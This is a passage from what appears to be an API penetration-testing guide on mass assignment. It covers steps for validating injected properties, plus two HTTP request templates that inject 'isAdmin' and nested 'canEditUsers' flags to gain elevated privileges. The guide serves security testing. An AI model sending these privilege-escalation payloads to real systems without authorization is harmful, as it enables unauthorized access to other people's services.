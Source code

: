 ### 6. Response Analysis & Validation

#### 6.1 Confirm Property Acceptance

- Check if the modified properties appear in responses
- Verify if the changes persist when re-fetching objects
- Test if functionality changes reflect the property modifications
- Check database directly if possible to confirm changes

#### 6.2 Document Response Patterns

- Note which properties are reflected in responses
- Document error patterns for rejected properties
- Identify inconsistencies in property handling
- Look for information leakage in error responses

## Exploitation & Reporting

### Exploitation Templates

#### Basic Property Injection (JSON)

```
POST /api/users HTTP/1.1
Host: example.com
Authorization: Bearer [your_token]
Content-Type: application/json

{
  "name": "John Doe",
  "email": "john@example.com",
  "role": "user",
  "isAdmin": true  // Injected sensitive property
}
```

#### Nested Object Manipulation (JSON)

```
PUT /api/users/profile HTTP/1.1
Host: example.com
Authorization: Bearer [your_token]
Content-Type: application/json

{
  "displayName": "John",
  "bio": "Regular user",
  "settings": {
    "theme": "dark",
    "permissions": {
      "canEditUsers": true  // Nested permission property
    }
  }
}
```
